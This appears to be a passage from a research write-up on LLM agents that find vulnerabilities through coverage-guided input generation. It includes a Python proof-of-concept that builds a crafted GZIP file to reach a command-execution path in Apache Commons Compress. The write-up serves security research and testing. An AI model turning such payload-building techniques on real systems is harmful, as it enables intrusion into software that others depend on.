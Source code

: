 **Example Approach: Apache Commons Compress GZIP**
```python
def create_payload() -> bytes:
    payload = bytearray() # Initial Setup: Create GZIP header structure
    payload.extend([0x1f, 0x8b]) # GZIP magic bytes (ID1, ID2)
    payload.append(8) # Compression method (CM) - must be 8 (DEFLATED)
    payload.append(0x08) # Flags (FLG) - set FNAME bit (0x08) to include filename

    mtime = 1731695077 # This is the key condition that triggers the vulnerability
    payload.extend(struct.pack('<I', mtime))  # 4 bytes little-endian

    payload.append(0) # Extra flags (XFL) - can be 0
    payload.append(0) # Operating system (OS) - can be any value

    filename = b"jazze" # The filename "jazze" will be passed to ProcessBuilder constructor
    payload.extend(filename)
    payload.append(0)  # Null terminator for filename

    # Add minimal compressed data to avoid EOF exceptions
    compressed_data = bytes([
        0x03, 0x00,  # Minimal deflate block (final, no compression)
        0x00, 0x00, 0x00, 0x00,  # CRC32 (4 bytes)
        0x00, 0x00, 0x00, 0x00   # ISIZE (4 bytes)
    ])
    payload.extend(compressed_data)

    return bytes(payload) # MUST return only bytes, not tuple/dict
```

Notice the surgical precision: exact modification time, specific filename pattern, proper GZIP structure. BlobGen discovered these requirements through iterative coverage analysis, using the line-level coverage data (file names, function names, and line numbers) to add `@VISITED` markers and track progress toward the vulnerability.

**When BlobGen Wins:** Known vulnerability path, strict format requirements, need for precise value combinations.

### 🎲 Generator Agent: The Probability Explorer

Then we discovered something counterintuitive that changed our whole approach: when you can't predict which attack will succeed, systematic variation beats precision. The Generator Agent emerged from a crucial realization – instead of fighting LLM non-determinism, we could weaponize it.

**The Approach:** Generator creates `generate(rnd: random.Random) -> bytes` functions that produce 20 variations per iteration. This probabilistic strategy turns LLM non-determinism from weakness into strength through systematic exploration.

```
┌──────────────────┐    ┌─────────────────┐    ┌──────────────────┐
│ Plan             │───▶│ Create/Improve  │───▶│ Collect          │
│ Generator        │    │ Generator       │    │ Coverage         │
└──────────────────┘    └─────────────────┘    └─────────┬────────┘
                                 ▲                       │
      ┌─────────────────────────▶│                       │
      │                          │                       ▼
      │                 ┌─────────────────┐    ┌──────────────────┐
      │                 │ Analyze         │◀───│ Update           │
      │                 │ Coverage        │    │ Interesting      │
      │                 └────────┬────────┘    │ Functions        │
      │                          │             └──────────────────┘
      │                          ▼
      │                 ┌─────────────────┐
      │                 │ Finalize        │
      │                 └─────────────────┘
      │
  Iterative Improvement Loop (20 variations per iteration)
```
